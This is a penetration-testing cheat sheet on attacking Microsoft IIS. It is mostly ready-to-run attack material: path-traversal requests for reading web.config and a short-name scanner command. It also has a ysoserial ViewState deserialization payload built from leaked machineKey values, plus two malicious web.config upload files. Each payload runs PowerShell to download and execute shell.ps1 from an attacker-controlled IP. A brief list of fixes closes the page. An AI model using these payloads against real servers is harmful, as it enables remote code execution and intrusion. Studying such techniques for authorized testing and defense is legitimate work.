 ```yaml
---
title: "IIS"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```

## Exploring Binary Files with path traversal 

```sh
GET /download_page?id=..%2f..%2fweb.config HTTP/1.1
Host: example-mvc-application.minded
```

`Don't forget to try multiple path traversal like ..../ or \..\`

- Interesting file : 
  Web.config
  
- Interesting extension : 
  asp
  aspx
  config
  php

## Microsoft IIS tilde character “~” Vulnerability/Feature – Short File/Folder Name Disclosure

- Download the tool:
```sh
wget https://github.com/irsdl/IIS-ShortName-Scanner
```
- Exploit :
```sh
java -jar iis_shortname_scanner.jar 2 20 http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db/
```

## ViewState exploitation knowing secrets

- Resources : 
https://blog.liquidsec.net/2021/06/01/asp-net-cryptography-for-pentesters/
https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/

- Need to read the web.config file:
```sh
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

- Download YsoSerial : 
```sh
https://github.com/pwntester/ysoserial.net/releases/tag/v1.36
```

- Generate the payload : 
```sh
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.18:8080/shell.ps1') "  --decryptionalg="AES"  --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/default.aspx"
```

### Web config file upload : 

```sh
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.3.12:8080/shell.ps1')")
%>
```


```sh
<?xml version="1.0" encoding="utf-8"?> 
<configuration>  
    <location path="." inheritInChildApplications="false">  
        <system.webServer>  
            <handlers>  
                <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />  
            </handlers>  
            <aspNetCore processPath="cmd.exe" 
                        arguments="/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.3.12:8080/shell.ps1')" 
                        stdoutLogEnabled="false" 
                        stdoutLogFile=".\logs\stdout" 
                        hostingModel="OutOfProcess" />  
        </system.webServer>  
    </location>  
</configuration>  
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

- Ressources : https://medium.com/@jeroenverhaeghe/rce-from-web-config-461a5eab8ce9
## Fixes

- Set **allowSubDirConfig** = false in  
    `C:\Windows\System32\inetsrv\Config\applicationHost.config`. This prevents web.config files from being read in subdirectories
- Remove write permission on the `web.config` file.
- Lock sections in the web config